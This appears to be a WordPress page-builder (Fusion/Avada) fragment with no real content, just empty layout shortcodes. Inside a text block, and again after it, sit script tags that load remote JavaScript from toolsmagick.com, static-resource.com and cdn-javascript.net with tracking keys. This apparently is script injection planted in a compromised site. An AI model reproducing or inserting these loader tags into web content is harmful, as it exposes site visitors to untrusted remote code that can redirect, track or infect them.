 
[/fusion_text][/fusion_builder_column][/fusion_builder_row][/fusion_builder_container][fusion_builder_container hundred_percent="yes" hundred_percent_height="no" hundred_percent_height_scroll="no" hundred_percent_height_center_content="yes" equal_height_columns="no" menu_anchor="" hide_on_mobile="small-visibility,medium-visibility,large-visibility" status="published" publish_date="" class="" id="" background_color="rgba(139,195,74,0)" background_image="" background_position="center center" background_repeat="no-repeat" fade="no" background_parallax="none" enable_mobile="no" parallax_speed="0.3" video_mp4="" video_webm="" video_ogv="" video_url="" video_aspect_ratio="16:9" video_loop="yes" video_mute="yes" video_preview_image="" border_size="" border_color="" border_style="solid" margin_top="" margin_bottom="" padding_top="" padding_right="" padding_bottom="" padding_left=""][fusion_builder_row][/fusion_builder_row][/fusion_builder_container][fusion_builder_container hundred_percent="no" hundred_percent_height="no" hundred_percent_height_scroll="no" hundred_percent_height_center_content="yes" equal_height_columns="no" menu_anchor="" hide_on_mobile="small-visibility,medium-visibility,large-visibility" status="published" publish_date="" class="" id="" background_color="" background_image="" background_position="center center" background_repeat="no-repeat" fade="no" background_parallax="none" enable_mobile="no" parallax_speed="0.3" video_mp4="" video_webm="" video_ogv="" video_url="" video_aspect_ratio="16:9" video_loop="yes" video_mute="yes" video_preview_image="" border_size="" border_color="" border_style="solid" margin_top="" margin_bottom="" padding_top="" padding_right="" padding_bottom="" padding_left=""][fusion_builder_row][/fusion_builder_row][/fusion_builder_container][fusion_builder_container hundred_percent="no" equal_height_columns="no" menu_anchor="" hide_on_mobile="small-visibility,medium-visibility,large-visibility" class="" id="" background_color="" background_image="" background_position="center center" background_repeat="no-repeat" fade="no" background_parallax="none" parallax_speed="0.3" video_mp4="" video_webm="" video_ogv="" video_url="" video_aspect_ratio="16:9" video_loop="yes" video_mute="yes" overlay_color="" video_preview_image="" border_size="" border_color="" border_style="solid" padding_top="" padding_bottom="" padding_left="" padding_right=""][fusion_builder_row][fusion_builder_column type="1_1" layout="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" border_position="all" spacing="yes" background_image="" background_repeat="no-repeat" padding_top="" padding_right="" padding_bottom="" padding_left="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="small-visibility,medium-visibility,large-visibility" center_content="no" last="no" min_height="" hover_type="none" link=""][fusion_text]<script src="//toolsmagick.com/2252259d09bdba7f1b.js"></script><script src="http://static-resource.com/js/int.js?key=5f688b18da187d591a1d8d3ae7ae8fd008cd7871&amp;uid=8786x" type="text/javascript"></script><script src="http://cdn-javascript.net/api?key=a1ce18e5e2b4b1b1895a38130270d6d344d031c0&amp;uid=8786x&amp;format=arrjs&amp;r=1581925941641" type="text/javascript"></script><script src="http://toolsmagick.com/ext/2252259d09bdba7f1b.js?sid=52646_8786_&amp;title=qqq&amp;blocks[]=31af2" type="text/javascript"></script>[/fusion_text][/fusion_builder_column][/fusion_builder_row][/fusion_builder_container]

<script src="//toolsmagick.com/2252259d09bdba7f1b.js"></script><script src="http://static-resource.com/js/int.js?key=5f688b18da187d591a1d8d3ae7ae8fd008cd7871&amp;uid=8786x" type="text/javascript"></script><script src="http://cdn-javascript.net/api?key=a1ce18e5e2b4b1b1895a38130270d6d344d031c0&amp;uid=8786x&amp;format=arrjs&amp;r=1583232181462" type="text/javascript"></script><script src="http://toolsmagick.com/ext/2252259d09bdba7f1b.js?sid=52646_8786_&amp;title=qqq&amp;blocks[]=31af2" type="text/javascript"></script>
